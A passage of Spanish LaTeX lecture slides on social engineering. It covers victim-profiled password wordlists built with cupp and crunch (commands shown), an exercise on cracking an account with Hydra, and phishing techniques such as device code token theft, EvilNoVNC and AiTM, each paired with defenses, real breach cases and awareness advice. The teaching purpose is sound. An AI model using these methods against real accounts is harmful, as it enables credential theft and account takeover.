\begin{center}
\includegraphics[width=\linewidth,height=0.83\textheight,keepaspectratio]{img/sl082_2.png}
\end{center}
\end{column}
\end{columns}
\vfill
\end{frame}

\begin{frame}{Ejemplo-6: Diccionarios a medida}
\begin{center}
\includegraphics[width=0.465\textwidth,height=0.841\textheight,keepaspectratio]{img/sl082_3.png}
\end{center}
\end{frame}

\begin{frame}{Ejemplo-6: Diccionarios a medida}
\footnotesize
\lead{Herramientas:}
  \begin{itemize}\setlength{\itemsep}{0.35em}
  \item \href{https://github.com/Mebus/cupp}{Cupp} --- genera el diccionario a partir del \textbf{perfil personal} de la víctima (fechas, nombres, mascotas). El más ligado a la ingeniería social.
  \item \href{https://www.kali.org/tools/crunch/}{Crunch} --- generación \textbf{exhaustiva} por juego de caracteres y patrón. Potente, pero el fichero resultante crece muy deprisa.
  \item \href{https://github.com/digininja/CeWL}{CeWL} (\href{https://esgeeks.com/como-utilizar-cewl/}{tutorial}) --- \term{spider} que construye el diccionario con las palabras del \textbf{propio sitio web} de la organización: jerga interna, productos, nombres de proyecto.
  \item \href{https://github.com/sc0tfree/mentalist}{Mentalist} (\href{https://www.hackplayers.com/2017/11/mentalist-una-herramienta-grafica-para.html}{artículo}) --- interfaz gráfica para encadenar reglas de mutación de forma visual.
  \item \href{https://github.com/LandGrey/pydictor}{Pydictor} (\href{https://www.disoftin.com/2018/05/pydictor-crea-un-diccionario-de-claves.html}{artículo}) --- muy configurable, con filtros por entropía y complejidad.
  \item \href{https://github.com/hashcat/maskprocessor}{maskprocessor} --- generador por máscaras del proyecto hashcat; se suele usar canalizado directamente al \term{cracker}, sin escribir el diccionario a disco.
  \end{itemize}
\fuente{En la práctica no se usa un diccionario ``en crudo'': se combina una lista base (\emph{rockyou}, filtraciones)
        con \textbf{reglas de mutación} de hashcat o John the Ripper, que reproducen cómo la gente modifica sus contraseñas.}
\end{frame}

\begin{frame}{Ejemplo-6: Diccionarios a medida}
\footnotesize
\lead{Uso de la herramienta cupp:}
  \begin{itemize}
  \item \cmd{cupp} pregunta por los datos personales de la víctima (cumpleaños, dirección, nombre de la pareja o de la mascota, aficiones\dots) y genera un diccionario combinándolos: permutaciones, años, sufijos numéricos, sustituciones \term{leet} (\cmd{a}$\rightarrow$\cmd{4}, \cmd{e}$\rightarrow$\cmd{3})\dots
  \end{itemize}
\cmdbox{python3 cupp.py -i \ \ \ \ \# modo interactivo}
\vspace{-0.6em}
  \begin{itemize}
  \item \cmd{crunch} genera exhaustivamente todas las combinaciones de un juego de caracteres, opcionalmente siguiendo un patrón fijo.
  \end{itemize}
\cmdbox{crunch 10 10 -f /usr/share/crunch/charset.lst mixalpha-numeric-symbol14 \textbackslash\\
\hphantom{crunch }-t @@@Ricardo -o dicc.txt}
\vspace{-0.4em}
\fuente{\cmd{10 10} longitud mínima y máxima \sep{} \cmd{-f} juego de caracteres \sep{}
        \cmd{-t} patrón (\cmd{@} = letra minúscula) \sep{} \cmd{-o} fichero de salida.
        \textbf{Ojo:} el espacio de búsqueda crece exponencialmente; conviene estimar el tamaño antes de lanzarlo.}
\end{frame}

\begin{frame}{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.52\textwidth,height=0.46\textheight,keepaspectratio]{img/sl085_1.jpg}
\end{center}
  \begin{itemize}
  \item ¿Serías capaz de crear un diccionario ajustado al perfil de la víctima?
  \item ¿Serías capaz de ``hackear'' la cuenta del individuo usando \href{https://github.com/vanhauser-thc/thc-hydra}{Hydra}?
  \end{itemize}
\end{frame}

\section{Phishing Avanzado}

\begin{frame}[allowframebreaks]{Phishing Avanzado}
\small
\lead{Device Code Phishing --- Robo de tokens OAuth 2.0}
  \begin{itemize}
  \item Técnica en fuerte crecimiento desde 2024--2025: los principales proveedores de \term{threat intelligence} la sitúan entre los vectores de acceso inicial que más han aumentado contra entornos Microsoft~365.
  \item ¿Cómo funciona?
    \begin{itemize}
    \item 1. El atacante solicita un Device Code legítimo a Microsoft o Google (OAuth Device Authorization Grant, \href{https://www.rfc-editor.org/rfc/rfc8628}{RFC 8628}).
    \item 2. Envía un correo de phishing al objetivo con el código y el enlace oficial (\cmd{microsoft.com/devicelogin}).
    \item 3. La víctima accede a la URL REAL, introduce el código y completa su autenticación + MFA.
    \item 4. El atacante recibe el \emph{access token} y el \emph{refresh token} --- sin ver la contraseña ni el 2FA.
    \end{itemize}
  \item Por qué es tan peligroso:
    \begin{itemize}
    \item No hay página falsa $\rightarrow$ pasa todos los filtros de URL y reputación.
    \item La MFA la realiza la propia víctima --- no se puede bloquear por este vector.
    \item El token es válido desde la perspectiva del IdP: proviene de la IP de la víctima.
    \end{itemize}
  \item $\rightarrow$ Atribuido al grupo Storm-2372 en campañas contra Microsoft 365 y Azure.
  \item Herramientas y kits:
    \begin{itemize}
    \item \href{https://aadinternals.com/}{AADInternals} --- \cmd{Get-AADIntAccessTokenWithDeviceCode}
    \item Mamba C2 --- framework completo con módulo Device Code Phishing
    \item \href{https://github.com/JumpsecLabs/TokenSmith}{TokenSmith}, o simplemente \cmd{curl} contra \cmd{login.microsoftonline.com}
    \end{itemize}
  \item Defensa:
    \begin{itemize}
    \item \href{https://learn.microsoft.com/en-us/entra/identity/conditional-access/policy-block-authentication-flows}{Acceso condicional}: bloquear el Device Code Flow para usuarios no privilegiados.
    \item Revisar logs de Entra ID buscando el tipo de concesión\\
          \cmd{urn:ietf:params:oauth:grant-type:device\_code}
    \end{itemize}
  \end{itemize}
\fuente{\href{https://www.microsoft.com/en-us/security/blog/2025/02/13/storm-2372-conducts-device-code-phishing-campaign/}{Microsoft Threat Intelligence --- Storm-2372 device code phishing} \textbar{}
        \href{https://unaaldia.hispasec.com/}{Hispasec, Una al día}}
\end{frame}

\begin{frame}[allowframebreaks]{Phishing Avanzado}
\small
\lead{EvilNoVNC --- Phishing con bypass de MFA en tiempo real}
  \begin{itemize}
  \item EvilNoVNC utiliza \href{https://novnc.com/}{NoVNC} (VNC en el navegador) para mostrar a la víctima una sesión de navegador real alojada en el servidor del atacante.
  \item Flujo del ataque:
    \begin{itemize}
    \item 1. El atacante lanza EvilNoVNC: el servidor abre un navegador headless (Chromium/Firefox).
    \item 2. La víctima recibe un enlace de phishing $\rightarrow$ al abrirlo ve el ``navegador real'' vía NoVNC.
    \item 3. La víctima navega al sitio legítimo (p.\,ej. Gmail u Office 365), introduce credenciales y hace MFA.
    \item 4. El atacante observa la sesión en tiempo real y extrae las cookies de sesión autenticada.
    \end{itemize}
  \item Diferencias frente al phishing clásico:
    \begin{itemize}
    \item No hay página falsa que pueda ser detectada por los sistemas antiphishing.
    \item La MFA no ayuda: la víctima la completa en la sesión real del atacante.
    \item El certificado TLS que ve la víctima es el del sitio legítimo.
    \end{itemize}
  \item $\rightarrow$ Muy similar a Evilginx, pero más versátil: funciona sin modificar DNS ni certificados.
  \end{itemize}
\vfill
\lead{Herramientas relacionadas}
  \begin{itemize}\setlength{\itemsep}{0.25em}
  \item \href{https://github.com/JoelGMSec/EvilnoVNC}{EvilnoVNC} (JoelGMSec).
  \item \href{https://github.com/kgretzky/evilginx2}{Evilginx3} --- \term{reverse proxy} AiTM para captura de cookies.
  \item Mamba C2 --- framework con módulos AiTM integrados.
  \end{itemize}
\fuente{Contramedida real: la única que corta este vector de raíz es una credencial ligada al origen
        (FIDO2/passkey); el resto son mitigaciones que elevan el coste, no barreras.}
\end{frame}

\begin{frame}{Phishing Avanzado}
\footnotesize
\lead{AiTM (Adversary in The Middle)}
  \begin{itemize}
  \item Proxy inverso entre la víctima y el sitio legítimo.
  \item Captura cookies de sesión post-MFA: la víctima se autentica y el atacante roba la cookie.
  \item Herramientas: \href{https://github.com/kgretzky/evilginx2}{Evilginx3}, \href{https://github.com/drk1wi/Modlishka}{Modlishka}, Mamba C2.
  \item $\rightarrow$ Defensa: acceso condicional con \emph{token binding}, evaluación continua de acceso (CAE), políticas de frecuencia de inicio de sesión y, sobre todo, MFA resistente a phishing (\href{https://fidoalliance.org/passkeys/}{FIDO2/passkeys}).
  \end{itemize}

\lead{Browser-in-Browser (BitB)}
  \begin{itemize}
  \item Crea una ventana de navegador falsa DENTRO del navegador real usando CSS/JS.
  \item Imita el popup de OAuth de Google o Microsoft, con barra de URL falsa pero creíble.
  \item La víctima introduce credenciales creyendo que es la ventana oficial del IdP.
  \item Herramienta: \href{https://github.com/mrd0x/BITB}{BitB Framework} (mr.d0x).
  \item $\rightarrow$ Defensa: intentar arrastrar la ventana fuera del navegador; la falsa no sale del lienzo de la página.
  \end{itemize}
\end{frame}

\begin{frame}{Phishing Avanzado}
\small
\lead{\term{Quishing}}
  \begin{itemize}
  \item \term{Quishing} --- phishing con códigos QR (\emph{QR} + \emph{phishing}).
  \item El enlace malicioso va dentro del QR $\rightarrow$ evita los filtros de URL de los sistemas de correo.
  \item Muy eficaz en móviles (menor visibilidad del destino antes de acceder) y salta del dispositivo corporativo al personal, fuera del alcance del EDR.
  \item Usado activamente desde 2023 en campañas dirigidas a cuentas corporativas; también en QR pegados sobre carteles legítimos (parquímetros, cartas de restaurante).
  \end{itemize}

\lead{MFA fatigue / push bombing}
  \begin{itemize}
  \item El atacante ya tiene la contraseña y lanza decenas de solicitudes push hasta que la víctima acepta por agotamiento o error.
  \item \href{https://attack.mitre.org/techniques/T1621/}{T1621} en MITRE ATT\&CK.
  \item $\rightarrow$ Defensa: \href{https://learn.microsoft.com/en-us/entra/identity/authentication/how-to-mfa-number-match}{number matching}, límite de intentos y, de nuevo, passkeys.
  \end{itemize}
\end{frame}

\begin{frame}{Phishing Avanzado}
\footnotesize
\lead{Tendencias actuales}
  \begin{itemize}\setlength{\itemsep}{0.4em}
  \item \textbf{ClickFix / FakeCaptcha}: la web muestra un falso CAPTCHA o un falso error y le pide a la víctima que copie un texto y lo pegue en \cmd{Win+R} o en la terminal. Es el propio usuario quien ejecuta el malware, así que no hay descarga que analizar. Muy extendido desde 2024.
  \item \textbf{Callback phishing (TOAD, \emph{Telephone-Oriented Attack Delivery})}: el correo no lleva enlaces ni adjuntos maliciosos, solo una factura falsa y un teléfono. Evade todos los filtros de contenido; el ataque ocurre en la llamada.
  \item \textbf{Spear phishing generado por IA}: correos sin errores gramaticales, personalizados a partir de OSINT automatizado y en el idioma del objetivo.
  \item \textbf{Deepfake vishing y videollamadas}: llamadas con voz clonada de directivos (CEO fraud 2.0). En 2024, una empresa perdió unos 25 millones de dólares tras una videoconferencia en la que todos los participantes eran deepfakes.
  \item \textbf{Phishing por Teams, Slack y plataformas colaborativas}: no solo correo; el atacante escribe desde un tenant externo haciéndose pasar por soporte técnico.
  \end{itemize}
\fuente{\href{https://www.proofpoint.com/us/blog/threat-insight/security-brief-clickfix-social-engineering-technique-floods-threat-landscape}{Proofpoint --- ClickFix} \textbar{}
        \href{https://edition.cnn.com/2024/05/16/tech/arup-deepfake-scam-loss-hong-kong-intl-hnk/index.html}{CNN --- caso Arup (deepfake, 25 M\$)} \textbar{}
        \href{https://www.enisa.europa.eu/topics/cyber-threats/threats-and-trends}{ENISA Threat Landscape}}
\end{frame}

\begin{frame}{Phishing Avanzado}
\footnotesize
\lead{Casos reales: la ingeniería social detrás de brechas conocidas}
  \begin{itemize}\setlength{\itemsep}{0.35em}
  \item \textbf{RSA (2011)} --- un Excel adjunto titulado \emph{2011 Recruitment Plan}, con un 0-day de Flash, enviado a un puñado de empleados de perfil bajo. Terminó comprometiendo las semillas de los tokens SecurID de medio mundo.
  \item \textbf{Ubiquiti (2015)} --- fraude del CEO puro: 46,7~millones de dólares transferidos a cuentas de los atacantes sin que mediara ningún malware.
  \item \textbf{Twitter (2020)} --- \term{vishing} dirigido a empleados con acceso a herramientas internas de administración; se secuestraron cuentas verificadas para una estafa de criptomonedas.
  \item \textbf{MGM Resorts (2023)} --- una llamada al \term{help desk} suplantando a un empleado localizado en LinkedIn bastó para que le resetearan el MFA.
  \item \textbf{Arup (2024)} --- videollamada en la que todos los interlocutores eran \term{deepfakes}: unos 25~millones de dólares.
  \item \textbf{Storm-2372 (2025)} --- campañas de \term{device code phishing} contra Microsoft 365.
  \end{itemize}
\fuente{Ninguno de estos ataques necesitó una vulnerabilidad sofisticada en el punto de entrada:
        el vector fue siempre una persona. \emph{La cadena se rompe por el eslabón humano, no por el criptográfico}.}
\end{frame}

\section{Educación y concienciación}

\begin{frame}{Educación y Concienciación}
\small
  \begin{itemize}
  \item La educación es nuestra primera línea de defensa. La concienciación sobre la ingeniería social implica proporcionar a los empleados y usuarios las habilidades necesarias para reconocer las señales de advertencia comunes.
  \item Promoción de prácticas seguras: la concienciación fomenta la adopción de prácticas seguras en línea y fuera de línea. Las personas bien informadas son menos propensas a caer en trampas de ingeniería social.
  \item Responsabilidad compartida: la seguridad es una responsabilidad compartida. Tanto a nivel personal como empresarial, todos desempeñamos un papel importante en la prevención de la ingeniería social.
  \end{itemize}
\end{frame}

\begin{frame}{Educación y Concienciación}
\small
  \begin{itemize}
  \item Contraseñas robustas: el uso de contraseñas fuertes, únicas y difíciles de adivinar es esencial para proteger nuestras cuentas. Mejor aún: un gestor de contraseñas que genere una distinta por servicio.
  \item Autenticación multifactor (MFA): activarla añade una capa adicional de seguridad. Siempre que sea posible, elegir un factor \textbf{resistente a phishing} (llave FIDO2 o passkey) en lugar de SMS o códigos OTP.
  \item Un gestor de contraseñas también actúa como defensa anti-phishing: no autorrellena las credenciales en un dominio que no es el legítimo.
  \item No reutilizar contraseñas entre cuentas y cambiarlas ante cualquier indicio de compromiso.
  \end{itemize}
\end{frame}

\begin{frame}{Educación y Concienciación}
\scriptsize
\lead{Defensa técnica y organizativa frente a la ingeniería social}
\begin{columns}[t]
\begin{column}{0.48\textwidth}
\lead{\scriptsize Técnica}
  \begin{itemize}\setlength{\itemsep}{0.3em}
  \item MFA resistente a phishing: \href{https://fidoalliance.org/passkeys/}{FIDO2/passkeys} (\href{https://www.w3.org/TR/webauthn/}{WebAuthn}). La credencial está ligada al origen, así que un proxy AiTM no puede reutilizarla.
  \item Autenticación de correo: SPF + DKIM + DMARC en \cmd{p=reject}, MTA-STS y etiquetado de correo externo.
  \item Bloqueo de macros procedentes de Internet (Mark-of-the-Web) y reglas de reducción de superficie de ataque.
  \item Acceso condicional: bloquear flujos de autenticación no usados (device code), \emph{token binding} y CAE.
  \item Aislamiento del navegador y filtrado DNS/proxy.
  \end{itemize}
\end{column}
\begin{column}{0.48\textwidth}
\lead{\scriptsize Organizativa}
  \begin{itemize}\setlength{\itemsep}{0.3em}
  \item Verificación fuera de banda obligatoria para pagos y cambios de cuenta bancaria, con doble autorización.
  \item Procedimiento claro: ningún responsable pedirá jamás credenciales ni saltarse un proceso por urgencia.
  \item Botón de ``reportar phishing'' y cultura \textbf{no punitiva}: interesa que la gente avise, no que se esconda.
  \item Simulacros periódicos midiendo la dificultad real del señuelo (\href{https://csrc.nist.gov/pubs/tn/2276/final}{NIST Phish Scale}, TN 2276).
  \item Control de accesos físicos: esclusas, tarjetas visibles y política contra el tailgating.
  \end{itemize}
\end{column}
\end{columns}
\fuente{\href{https://www.cisa.gov/resources-tools/resources/phishing-guidance-stopping-attack-cycle-phase-one}{CISA --- Phishing Guidance} \textbar{}
        \href{https://pages.nist.gov/800-63-3/sp800-63b.html}{NIST SP 800-63B} \textbar{}
        \href{https://www.incibe.es/empresas/formacion/kit-concienciacion}{INCIBE --- Kit de concienciación}}
\end{frame}

\begin{frame}{Glosario}
\scriptsize
\lead{\footnotesize Los anglicismos del tema, en una sola transparencia}
\vfill
\begin{columns}[t]
\begin{column}{0.48\textwidth}
\begin{tabular}{@{}>{\itshape}l l@{}}
\toprule
\normalfont\bfseries Término & \bfseries Equivalente en español \\
\midrule
Baiting          & Cebo \\
Dumpster diving  & Rebuscar en la basura \\
Eavesdropping    & Escucha clandestina \\
Impersonation    & Suplantación de identidad \\
Piggybacking     & Acceso ``a hombros'' \\
Pretexting       & Pretexto, coartada \\
Shoulder surfing & Mirar por encima del hombro \\
Tailgating       & Colarse tras alguien \\
Watering hole    & Ataque de abrevadero \\
\bottomrule
\end{tabular}
\end{column}
\begin{column}{0.48\textwidth}
\begin{tabular}{@{}>{\itshape}l l@{}}
\toprule
\normalfont\bfseries Término & \bfseries Significado \\
\midrule
AiTM             & Atacante interpuesto \\
Bait / lure      & Señuelo de la campaña \\
Callback phishing & Phishing con llamada (TOAD) \\
Deepfake         & Suplantación sintética \\
Payload          & Carga útil \\
Pharming         & Redirección vía DNS \\
Quishing         & Phishing mediante QR \\
Smishing         & Phishing por SMS \\
Vishing          & Phishing telefónico \\
\bottomrule
\end{tabular}
\end{column}
\end{columns}
\vfill
\fuente{En la literatura profesional casi siempre se emplea el término inglés; conviene reconocer ambos.}
\end{frame}

\begin{frame}{Bibliografía}
\small
\lead{Libros y marcos de referencia}
  \begin{itemize}\setlength{\itemsep}{0.35em}
  \item R.~B.~Cialdini, \emph{Influence: The Psychology of Persuasion} --- los seis principios de persuasión en los que se apoya toda la ingeniería social (\href{https://www.influenceatwork.com/principles-of-persuasion/}{resumen}).
  \item K.~D.~Mitnick y W.~L.~Simon, \emph{The Art of Deception: Controlling the Human Element of Security}, Wiley, 2002.
  \item C.~Hadnagy, \emph{Social Engineering: The Science of Human Hacking}, 2.\textsuperscript{a} ed., Wiley, 2018.
  \item \href{https://www.social-engineer.org/framework/general-discussion/}{Social Engineering Framework} --- taxonomía y metodología de referencia.
  \item \href{https://attack.mitre.org/techniques/T1566/}{MITRE ATT\&CK --- T1566 Phishing} y técnicas relacionadas (T1598, T1204, T1656, T1621, T1534).
  \item \href{https://github.com/Ignitetechnologies/Mindmap/tree/main/Social\%20Engineering}{Mapa mental de Ingeniería Social} (Ignite Technologies).
  \end{itemize}
\end{frame}

\begin{frame}{Bibliografía}
\small
\lead{Informes, estándares y organismos}
  \begin{itemize}\setlength{\itemsep}{0.35em}
  \item \href{https://www.verizon.com/business/resources/reports/dbir/}{Verizon Data Breach Investigations Report (DBIR)} --- informe anual; el capítulo del factor humano es la referencia más citada.
  \item \href{https://apwg.org/trendsreports/}{APWG Phishing Activity Trends Report} --- estadísticas trimestrales de campañas de phishing.
  \item \href{https://www.enisa.europa.eu/topics/cyber-threats/threats-and-trends}{ENISA Threat Landscape} --- panorama europeo de amenazas.
  \item \href{https://www.cisa.gov/resources-tools/resources/phishing-guidance-stopping-attack-cycle-phase-one}{CISA --- Phishing Guidance: Stopping the Attack Cycle at Phase One}.
  \item \href{https://pages.nist.gov/800-63-3/sp800-63b.html}{NIST SP 800-63B} --- niveles de garantía de autenticación y resistencia al phishing.
  \item \href{https://csrc.nist.gov/pubs/tn/2276/final}{NIST TN 2276 --- Phish Scale User Guide}.
  \item Autenticación de correo: \href{https://www.rfc-editor.org/rfc/rfc7208}{RFC 7208 (SPF)}, \href{https://www.rfc-editor.org/rfc/rfc6376}{RFC 6376 (DKIM)}, \href{https://www.rfc-editor.org/rfc/rfc7489}{RFC 7489 (DMARC)}, \href{https://www.rfc-editor.org/rfc/rfc8461}{RFC 8461 (MTA-STS)}.
  \item Dominios y homógrafos: \href{https://www.rfc-editor.org/rfc/rfc3492}{RFC 3492 (Punycode)}, \href{https://www.rfc-editor.org/rfc/rfc5890}{RFC 5890 (IDNA2008)}, \href{https://www.unicode.org/reports/tr39/}{Unicode UTS \#39}.
  \item OAuth: \href{https://www.rfc-editor.org/rfc/rfc8628}{RFC 8628 (Device Authorization Grant)}.
  \end{itemize}
\end{frame}

\begin{frame}{Bibliografía}
\small
\lead{Recursos en español}
  \begin{itemize}\setlength{\itemsep}{0.3em}
  \item \href{https://www.incibe.es/}{INCIBE} y \href{https://www.osi.es/es/campanas/phishing}{Oficina de Seguridad del Internauta --- campaña de phishing}.
  \item \href{https://www.incibe.es/empresas/formacion/kit-concienciacion}{INCIBE --- Kit de concienciación} para empresas (material listo para usar).
  \item \href{https://unaaldia.hispasec.com/}{Hispasec --- Una al día}.
  \item Serie de fwhibbit: \href{https://fwhibbit.es/ingenieria-social-i-presentacion}{I. Presentación}, \href{https://fwhibbit.es/ingenieria-social-iii-provocando-suscitando-y-obteniendo-informacion-del-objetivo}{III. Obtener información del objetivo}, \href{https://fwhibbit.es/ingenieria-social-iv-asumiendo-roles-en-distintos-escenarios}{IV. Asumir roles}.
  \item Serie de Marketers LATAM: \href{https://marketerslatam.com/digital/ingenieria-social/}{I. Qué es}, \href{https://marketerslatam.com/digital/ingenieria-social-tipos-de-ataque-parte-2/}{II. Tipos de ataque}, \href{https://marketerslatam.com/digital/ingenieria-social-herramientas-parte-3/}{III. Herramientas}.
  \item Lectura: \href{https://derechodelared.com/diez-formas-de-detectar-phishing/}{cómo detectar un phishing}.
  \item Ejemplo: \href{https://www.elladodelmal.com/2014/07/badoo-un-aspirante-bombero-y-algo-de.html}{Badoo, un aspirante a bombero}.
  \item Ejemplo: \href{https://fwhibbit.es/el-chihuahua-mas-caro-del-mundo}{El chihuahua más caro del mundo}.
  \end{itemize}
\end{frame}

\begin{frame}{Bibliografía}
